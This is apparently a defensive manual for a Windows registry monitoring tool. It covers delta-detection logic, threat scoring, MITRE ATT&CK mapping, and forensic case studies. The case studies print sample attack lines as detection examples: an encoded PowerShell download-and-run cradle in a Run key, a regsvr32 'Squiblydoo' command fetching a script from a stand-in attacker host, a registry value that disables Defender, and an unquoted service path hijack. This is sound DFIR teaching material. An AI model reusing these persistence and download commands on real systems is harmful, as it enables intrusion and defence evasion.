



# 🔍 Windows Registry Monitoring System — Forensic Telemetry & Threat Analysis Manual
### *Deep-Dive Registry Delta Mechanics, Payload Resolution, and MITRE ATT&CK Hunting Playbooks*
**Author & Lead Architect:** Piyush | **Publisher:** MADE BY PIYUSH  
**Target Audience:** Digital Forensics & Incident Response (DFIR) Engineers, SOC Tier-2/Tier-3 Analysts, Malware Reverse Engineers, Threat Hunters

---

## 📑 Table of Contents
1. [Executive Forensics Overview](#1-executive-forensics-overview)
2. [Algorithmic Registry Delta Analysis](#2-algorithmic-registry-delta-analysis)
3. [Static Binary Resolution & On-Disk Verification Engine](#3-static-binary-resolution--on-disk-verification-engine)
4. [Heuristic Threat Scoring & MITRE ATT&CK Matrix](#4-heuristic-threat-scoring--mitre-attck-matrix)
5. [In-Depth Forensic Investigation Case Studies](#5-in-depth-forensic-investigation-case-studies)
   - [Case 1: Encoded PowerShell / Cobalt Strike Stager in User Run Key](#case-1-encoded-powershell--cobalt-strike-stager-in-user-run-key)
   - [Case 2: Defense Evasion — Disabling Windows Defender Real-Time Protection](#case-2-defense-evasion--disabling-windows-defender-real-time-protection)
   - [Case 3: Unquoted Service Path Exploitation in System Driver Tree](#case-3-unquoted-service-path-exploitation-in-system-driver-tree)
   - [Case 4: Living-off-the-Land (LOLBin) Regsvr32 / Squiblydoo Stager](#case-4-living-off-the-land-lolbin-regsvr32--squiblydoo-stager)
   - [Case 5: Registry Type-Juggling & Environment Variable Hijack](#case-5-registry-type-juggling--environment-variable-hijack)
6. [Forensic Telemetry & Chain of Custody](#6-forensic-telemetry--chain-of-custody)
7. [Cryptographic Integrity & Anti-Tamper Guarantees](#7-cryptographic-integrity--anti-tamper-guarantees)
8. [Automated DFIR Incident Response Playbook](#8-automated-dfir-incident-response-playbook)

---

## 1. Executive Forensics Overview

The Windows Registry is the centralized hierarchical database in Windows operating systems that stores low-level configuration settings for the OS kernel, hardware drivers, system services, security subsystems, and installed applications. Because of its pervasive control over OS boot execution, user logon hooks, and runtime policies, it is the **primary persistence and evasion battleground** in modern cyber operations.

Traditional Endpoint Detection and Response (EDR) agents rely heavily on kernel callbacks (`PsSetCreateProcessNotifyRoutineEx`, `CmRegisterCallbackEx`). While powerful, kernel callbacks incur system overhead, require signed kernel drivers, and can be blinded by Kernel-level rootkits (e.g., BYOVD — Bring Your Own Vulnerable Driver attacks).

The **Windows Registry Monitoring System** functions as an **independent, out-of-band defensive auditor**. Operating in user-mode with minimal footprint, it captures deterministic baseline snapshots of high-value registry paths and performs high-frequency differential delta calculations. Crucially, it resolves and hashes referenced binaries on disk, defeating pure in-memory or file-backed evasion tactics before they execute.



---

## 2. Algorithmic Registry Delta Analysis

### 2.1 Set-Theoretic Formulation

Let the monitored registry space at time $t$ be represented as a set of tuples $S_t$:

$$S_t = \{ (k, v, \tau, \delta) \mid k \in \mathcal{K}, v \in \mathcal{V}_k, \tau \in \mathcal{T}, \delta \in \mathcal{D} \}$$

Where:
- $\mathcal{K}$ is the set of normalized canonical key paths (e.g., `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`).
- $\mathcal{V}_k$ is the set of value names registered under key $k$.
- $\mathcal{T}$ is the set of Windows Registry data types ($\text{REG\_SZ}, \text{REG\_EXPAND\_SZ}, \text{REG\_DWORD}, \text{REG\_BINARY}, \dots$).
- $\mathcal{D}$ is the serialized binary payload or Unicode string representation of the value.

At interval $t+1$, a subsequent scan yields set $S_{t+1}$. The differential change set $\Delta_{t \to t+1}$ is formally decomposed into four mutually exclusive operational subsets:

$$\Delta_{\text{Added}} = \{ (k, v, \tau_{t+1}, \delta_{t+1}) \in S_{t+1} \mid \forall (\tilde{k}, \tilde{v}, \cdot, \cdot) \in S_t, (\tilde{k}, \tilde{v}) \neq (k, v) \}$$

$$\Delta_{\text{Deleted}} = \{ (k, v, \tau_t, \delta_t) \in S_t \mid \forall (\tilde{k}, \tilde{v}, \cdot, \cdot) \in S_{t+1}, (\tilde{k}, \tilde{v}) \neq (k, v) \}$$

$$\Delta_{\text{Modified}} = \{ (k, v, \tau_{t+1}, \delta_{t+1}) \in S_{t+1} \mid \exists (k, v, \tau_t, \delta_t) \in S_t \text{ s.t. } \tau_{t+1} = \tau_t \land \delta_{t+1} \neq \delta_t \}$$

$$\Delta_{\text{TypeChanged}} = \{ (k, v, \tau_{t+1}, \delta_{t+1}) \in S_{t+1} \mid \exists (k, v, \tau_t, \delta_t) \in S_t \text{ s.t. } \tau_{t+1} \neq \tau_t \}$$

### 2.2 Deduplication Fingerprinting

To prevent alert flooding when an attacker or an administrative script rapidly flaps registry values, the engine synthesizes an immutable cryptographic/string fingerprint for each delta event:

$$\text{Fingerprint} = \text{ChangeType} \parallel \text{FullPath} \parallel \text{ValueName} \parallel \text{ArchitectureView}$$

Example:
$$\text{"MODIFIED|HKLM\SYSTEM\CurrentControlSet\Services\WinDefend|Start|64bit"}$$

This fingerprint is tracked in a thread-safe sliding window with configurable cooldowns (default $3.0\text{ s}$ rate-limiting), suppressing repeated alerts while logging every transition into the persistent audit journal.

### 2.3 WOW64 Registry Redirection & Reflection Handling

On 64-bit Windows architectures, 32-bit processes access redirected registry views under `Software\WOW6432Node`. Malicious software frequently writes persistence payloads into the 32-bit hive view to evade crude detection utilities querying default handles.

The engine explicitly opens two dual-view handles during each pass:
1. `KEY_READ | KEY_WOW64_64KEY` (Physical 64-bit hive view)
2. `KEY_READ | KEY_WOW64_32KEY` (Isolated 32-bit WOW64 node view)

This dual-scan architecture guarantees that a malware dropper executing as a 32-bit binary cannot stealthily persist under `HKLM\Software\WOW6432Node\...\Run` without triggering an instant detection.

---

## 3. Static Binary Resolution & On-Disk Verification Engine

Detecting a registry modification is only half the battle. Adversaries rarely point registry entries directly to blatant malware paths; they wrap commands in execution proxies, unquoted paths, or environment variables.

The **File Resolver Engine** (`file_resolver.py`) parses raw registry strings using a multi-phase static analysis pipeline:



### 3.1 Strict Security Boundary (Zero Execution Guarantee)

At **no point** does the resolution engine invoke `ShellExecuteEx`, `CreateProcess`, `eval`, or external interpreters. Path checking is executed strictly via:
- `os.path.isfile()`
- `os.stat()`
- `hashlib.sha256()` with 8,192-byte buffer streaming to maintain zero memory inflation even against gigabyte-sized masqueraded binaries.

---

## 4. Heuristic Threat Scoring & MITRE ATT&CK Matrix

The system maps detected transitions into a deterministic 3-tier severity model coupled with MITRE ATT&CK tactical classifications:

| Severity Level | Color Code | Criteria & Heuristic Triggers | MITRE ATT&CK Mapping |
| :--- | :--- | :--- | :--- |
| **Investigation Required** | 🔴 Crimson (`#FF3B30`) | Deletion of critical security services, firewall profile deactivation, tamper protection disablement | T1562.001 (Impair Defenses), T1562.004 (Disable System Firewall) |
| **Suspicious** | 🟠 Amber (`#FF9500`) | New startup value in Run/RunOnce, execution proxies (`mshta`, `rundll32`, `powershell`), temp path binaries | T1547.001 (Registry Run Keys), T1059.001 (PowerShell), T1218 (System Binary Proxy Execution) |
| **Informational** | 🔵 Cyan (`#00D2FF`) | Normal software installation, benign uninstalls, unflagged configuration changes | T1082 (System Information Discovery) |

---

## 5. In-Depth Forensic Investigation Case Studies

### Case 1: Encoded PowerShell / Cobalt Strike Stager in User Run Key

#### Threat Scenario
An adversary gains initial access via a spear-phishing attachment and establishes persistence by planting a Base64-encoded PowerShell downloader into the user's registry startup run key.

#### Registry Manipulation
```reg
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
"WindowsHealthMonitor"="powershell.exe -NoP -NonI -W Hidden -Enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AYwAyAC4AYQB0AHQAYQBjAGsAZQByAC4AYwBvAG0ALwBwAGEAeQBsAG8AYQBkAC4AcHMAMQAnACkA"
```

#### Detection Output
```json
{
  "event_id": "a918e7e1-8f5b-4c7b-b510-184562095f32",
  "timestamp": "2026-10-22T19:45:10.128490+00:00",
  "change_type": "ADDED",
  "severity": "suspicious",
  "full_path": "HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run",
  "value_name": "WindowsHealthMonitor",
  "current_value": "powershell.exe -NoP -NonI -W Hidden -Enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBj...",
  "category": "Startup - Current User",
  "reason": "Value contains suspicious pattern: powershell",
  "resolved_file": {
    "command_info": {
      "executable_path": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
      "arguments": "-NoP -NonI -W Hidden -Enc SQBFAFgA...",
      "parse_method": "unquoted",
      "file_type": "executable"
    },
    "file_metadata": {
      "exists": true,
      "size_bytes": 450560,
      "modified_time": "2026-05-12T14:30:00+00:00",
      "sha256": "9f83cfc482613d96924b42c4b75a40b3c675ec76ee2b3da59f77e4cf4e7c3b2e"
    }
  }
}
```

#### Analyst Investigation Workflow
1. **Decode Payload**: The decoded command reveals `IEX (New-Object Net.WebClient).DownloadString('http://c2.attacker.com/payload.ps1')`.
2. **Network Scrutiny**: Pivot to firewall / proxy logs for egress traffic targeting `c2.attacker.com`.
3. **Remediation**: Remove the registry value using administrative privileges and isolate the endpoint.

---

### Case 2: Defense Evasion — Disabling Windows Defender Real-Time Protection

#### Threat Scenario
Ransomware operators (e.g., LockBit, BlackCat) frequently modify Defender registry keys prior to file encryption to prevent real-time behavioral interception.

#### Registry Manipulation
```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection]
"DisableRealtimeMonitoring"=dword:00000001
```

#### Detection Output
```json
{
  "event_id": "84cb1f09-328d-4f11-9a71-6780c1024eef",
  "timestamp": "2026-10-22T19:48:22.001928+00:00",
  "change_type": "MODIFIED",
  "severity": "suspicious",
  "full_path": "HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows Defender\\Real-Time Protection",
  "value_name": "DisableRealtimeMonitoring",
  "previous_value": 0,
  "current_value": 1,
  "category": "Windows Defender",
  "reason": "Security-related value modified in Windows Defender"
}
```

#### Threat Impact
- **Severity Escalation**: Automatically flagged for immediate SOC investigation.
- **Immediate Response**: Re-enable real-time monitoring via PowerShell (`Set-MpPreference -DisableRealtimeMonitoring $false`) and inspect processes running with `SeTakeOwnershipPrivilege`.

---

### Case 3: Unquoted Service Path Exploitation in System Driver Tree

#### Threat Scenario
An attacker identifies a legacy third-party service installed under an unquoted folder path with whitespace (e.g., `C:\Program Files\Common Tools\agent.exe`). By dropping `C:\Program.exe`, the attacker forces Windows Service Control Manager (SCM) to execute their payload with `NT AUTHORITY\SYSTEM` privileges upon reboot.

#### Detection Output
```json
{
  "event_id": "01b2298e-cba1-419a-9e12-32b001a1f49a",
  "timestamp": "2026-10-22T19:50:05.419082+00:00",
  "change_type": "MODIFIED",
  "severity": "suspicious",
  "full_path": "HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\VulnerableService",
  "value_name": "ImagePath",
  "previous_value": "\"C:\\Program Files\\Common Tools\\agent.exe\"",
  "current_value": "C:\\Program Files\\Common Tools\\agent.exe",
  "category": "Services & Drivers",
  "reason": "Security-related value modified in Services & Drivers",
  "resolved_file": {
    "command_info": {
      "executable_path": "C:\\Program.exe",
      "arguments": "Files\\Common Tools\\agent.exe",
      "parse_method": "unquoted",
      "file_type": "executable"
    },
    "file_metadata": {
      "exists": true,
      "size_bytes": 104448,
      "sha256": "4b68e7b99c00b39527ecbcfdf474b7c126ec0e0f31668e146eb251e600a98fc3"
    }
  }
}
```

#### Forensics Takeaway
The `_parse_unquoted_command` function inside `file_resolver.py` progressively tests whitespace prefixes against real files on disk. If an attacker dropped `C:\Program.exe`, the resolver detects that `C:\Program.exe` resolves *ahead* of the intended application, instantly exposing the unquoted hijack!

---

### Case 4: Living-off-the-Land (LOLBin) Regsvr32 / Squiblydoo Stager

#### Threat Scenario
Adversaries leverage trusted, signed Microsoft binaries to bypass application allowlisting (AppLocker / Windows Defender Application Control). The classic "Squiblydoo" attack uses `regsvr32.exe` invoking `scrobj.dll` to execute remote XML/JavaScript.

#### Registry Manipulation
```reg
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"AppSync"="regsvr32.exe /s /n /u /i:http://c2.attacker.com/payload.sct scrobj.dll"
```

#### Detection Output
```json
{
  "event_id": "77df98aa-516a-4d22-bf44-64019484bce1",
  "timestamp": "2026-10-22T19:53:15.892011+00:00",
  "change_type": "ADDED",
  "severity": "suspicious",
  "full_path": "HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run",
  "value_name": "AppSync",
  "current_value": "regsvr32.exe /s /n /u /i:http://c2.attacker.com/payload.sct scrobj.dll",
  "category": "Startup - Local Machine",
  "reason": "Value contains suspicious pattern: regsvr32",
  "resolved_file": {
    "command_info": {
      "executable_path": "C:\\Windows\\System32\\regsvr32.exe",
      "arguments": "/s /n /u /i:http://c2.attacker.com/payload.sct scrobj.dll",
      "parse_method": "unquoted",
      "file_type": "executable"
    }
  }
}
```

---

### Case 5: Registry Type-Juggling & Environment Variable Hijack

#### Threat Scenario
An advanced threat actor modifies the value type from `REG_SZ` (static string) to `REG_EXPAND_SZ` (dynamic environment expandable string) referencing a user-controlled environment variable `%CUSTOM_HELPER%`, pointing to a dropped malicious DLL.

#### Detection Output
```json
{
  "event_id": "3c847d01-e28a-40a2-9428-11234909a820",
  "timestamp": "2026-10-22T19:55:40.110294+00:00",
  "change_type": "TYPE_CHANGED",
  "severity": "suspicious",
  "full_path": "HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run",
  "value_name": "HelperAgent",
  "previous_type": "REG_SZ",
  "current_type": "REG_EXPAND_SZ",
  "previous_value": "C:\\Program Files\\Helper\\agent.exe",
  "current_value": "%CUSTOM_HELPER%\\agent.exe",
  "category": "Startup - Local Machine",
  "reason": "Security-related value modified in Startup - Local Machine"
}
```

---

## 6. Forensic Telemetry & Chain of Custody

All registry telemetry is preserved in dual synchronized storage tiers to satisfy strict evidential requirements:

### Tier 1: Real-Time Stream Journal (`events.jsonl`)
- Append-only newline-delimited JSON.
- Rotates automatically upon reaching 10 MB (up to 5 backup generations).
- Ideal for ingestion by Splunk Universal Forwarder, Elastic Filebeat, or Azure Sentinel Log Analytics Agent.

### Tier 2: Encrypted Evidence Ledger (`data/registry_monitor.db`)
- SQLite 3 with Write-Ahead Logging (`PRAGMA journal_mode=WAL`).
- Table `security_events`:
  - `event_id` (UUID Primary Key)
  - `timestamp` (ISO-8601 UTC)
  - `severity` (Indexed)
  - `change_type` (Indexed)
  - `full_path` & `value_name`
  - `encrypted_payload` (Fernet-encrypted JSON payload containing complete state delta, binary hash, and forensic resolution)

---

## 7. Cryptographic Integrity & Anti-Tamper Guarantees



1. **Hardware-Tied Secrets**: Even if an attacker copies the `.db` and `.dpapi` files off the endpoint to an external analysis machine, decryption fails because DPAPI relies on the source machine's local TPM and user master security key.
2. **Baseline SHA-256 Integrity Verification**: The reference baseline (`data/baseline.json`) embeds a recursive SHA-256 seal. On engine startup, the hash is recomputed across the entire JSON structure. Any external tampering causes immediate rejection with a security alert.

---

## 8. Automated DFIR Incident Response Playbook

When the system triggers an alert with **Suspicious** or **Investigation Required** status, operators should execute the following 5-step triage checklist:

```
[ ] 1. TRIAGE SEVERITY
    - Open Windows Registry Monitor Dashboard.
    - Check the Bento KPI cards (Suspicious / High Severity count).
    - Double-click the event row to expand full details in the Details Panel.

[ ] 2. ANALYZE RESOLVED PAYLOAD
    - Inspect "Referenced File" and "SHA-256" fields.
    - Copy the SHA-256 hash.
    - Query VirusTotal / Hybrid Analysis / Threat Connect:
      virustotal.com/gui/search/<SHA-256>

[ ] 3. PROCESS CORRELATION
    - Open PowerShell (Administrator) and search for running instances of the binary:
      Get-CimInstance Win32_Process | Where-Object { $_.ExecutablePath -like "*<BinaryName>*" }
    - Inspect parent process (PPID) to identify the dropper.

[ ] 4. EXPORT FORENSIC BUNDLE
    - Click "📁 Export CSV & Report" in the Monitor Dashboard.
    - Collect data/logs/events.jsonl, data/registry_monitor.db, and reports/events_<timestamp>.csv.
    - Compute SHA-256 hashes of all exported bundles for evidence chain of custody.

[ ] 5. REMEDIATION & BASELINE RE-ANCHORING
    - Neutralize the malicious registry key using reg.exe or PowerShell.
    - Terminate active malicious processes.
    - Delete dropped malicious PE files from disk.
    - In the Registry Monitor GUI, click "📋 Create Baseline" to re-anchor clean state.
```

---

*Windows Registry Monitoring System — Forensic Telemetry Manual*  
*Developed & Maintained by **Piyush** | **MADE BY PIYUSH***  
*Document Version: 2.4.0 (Enterprise Edition)*
